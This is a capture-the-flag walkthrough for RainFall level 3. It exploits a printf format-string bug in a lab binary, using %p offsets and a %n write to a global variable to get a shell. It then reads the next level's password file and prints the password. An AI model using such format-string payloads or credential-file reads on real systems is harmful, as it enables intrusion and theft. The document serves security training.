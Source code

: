 # Level 3

In this level we can see that we need to edit the value of the variable `m` to `0x40` in order to get a shell.
```asm
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
The input is read with the secure function `fgets`, our exploit lies elsewhere, in `printf`.

## The exploit
```shell
level3@RainFall:~$ ./level3 
%p %p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0 0x25207025
```
Odd, we're getting the value of the argument of fgets and what strongly looks like stack addresses, which means....

We know that the ascii of value value of 0 is `0x30`, let's try inserting a bunch of zeroes at the start of our buffer:
```shell
level3@RainFall:~$ ./level3 <<< `python -c 'print "0000" + "%p "*10'`
00000x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```
We can see that the 4th pointer gets modified by our printf format string as it's made of four zeroes (0x30303030), nice!

Let's simplify our string a bit now that we know which argument we can act on

```shell
level3@RainFall:~$ ./level3 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```

## Inserting the address
```shell
level3@RainFall:~$ objdump -t ./level3  | grep m
[...]
0804988c g     O .bss   00000004              m
[...]
```
the value of `m` is `0x804988c`, we can get it from `gdb`, `r2`, `objdump` or ghidra.

Let's insert it as a value.
```shell
level3@RainFall:~$ ./level3 <<< `python -c 'import struct; print struct.pack("<Q", 0x804988c) + "%4$p"'`
0x804988c
```

## Modifying memory
Now that we have access to the address of `m`, we can use `%n` to write a number to it as the BUG section of `printf` man tells us. 
The flag `%n` writes the number of character written so far to the pointer passed as argument, perfect to modify the value of `m`!

Since our format string is 4 bytes long, we need to add 60 more bytes

```shell
./level3 <<< `python -c 'import struct; print struct.pack("<Q", 0x804988c) + "a"*60 + "%4$n"'`
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

We won! we just need to find a way to keep the shell open now.

## Putting it together
Sadly `struct.pack()` doesn't really work to send our data to stdin in time, instead we've got to write `0x804988c` in little-endian manually.

```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' ; cat -) | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
